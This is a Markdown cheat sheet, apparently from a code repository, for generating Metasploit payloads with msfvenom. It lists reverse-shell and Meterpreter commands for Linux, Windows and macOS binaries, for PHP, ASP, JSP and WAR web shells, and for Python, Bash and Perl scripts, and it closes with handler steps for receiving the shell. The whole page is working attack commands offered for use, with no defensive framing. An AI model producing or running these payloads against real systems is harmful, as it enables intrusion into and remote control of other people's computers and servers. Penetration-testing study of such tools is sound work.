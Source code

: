 # msfvenom cheatsheet

**Basic Format Example**
```
msfvenom -p {PAYLOAD} LHOST={LHOST} LPORT={LPORT} -f {FORMAT} > file
```

**List all available paylods**
```
msfvenom --list payloads
```

## Binary Payloads

**Linux Meterpreter Reverse Shell**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f elf > shell.elf
```

**Windows Meterpreter Reverse TCP Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe
```

**Windows Reverse TCP Shell**
```
msfvenom -p windows/shell/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe
```

**Mac Reverse Shell**
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f macho > shell.macho
```

## Web Payloads

**PHP Meterpreter Reverse TCP**
```
msfvenom -p php/meterpreter_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.php
```

**ASP Meterpreter Reverse TCP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f asp > shell.asp
```

**JSP Meterpreter Reverse TCP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.jsp
```

**WAR Reverse TCP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f war > shell.war
```

## Scripting Payloads

**Python Reverse TCP**
```
msfvenom -p cmd/unix/reverse_python LHOST={LHOST} LPORT={LPORT} -f raw > shell.py
```

**Bash Unix Reverse TCP**
```
msfvenom -p cmd/unix/reverse_bash LHOST={LHOST} LPORT={LPORT} -f raw > shell.sh
```

**Perl Reverse Reverse TCP**
```
msfvenom -p cmd/unix/reverse_perl LHOST={LHOST} LPORT={LPORT} -f raw > shell.pl
```

## Retrieving the back connect

Before executing your newly created shell, make sure to run the handler so you are listening for the incoming connection.

`use exploit/multi/handler`

`set payload {PAYLOAD}`

`set LHOST {LHOST}`

`set LPORT {LPORT}`

`run`
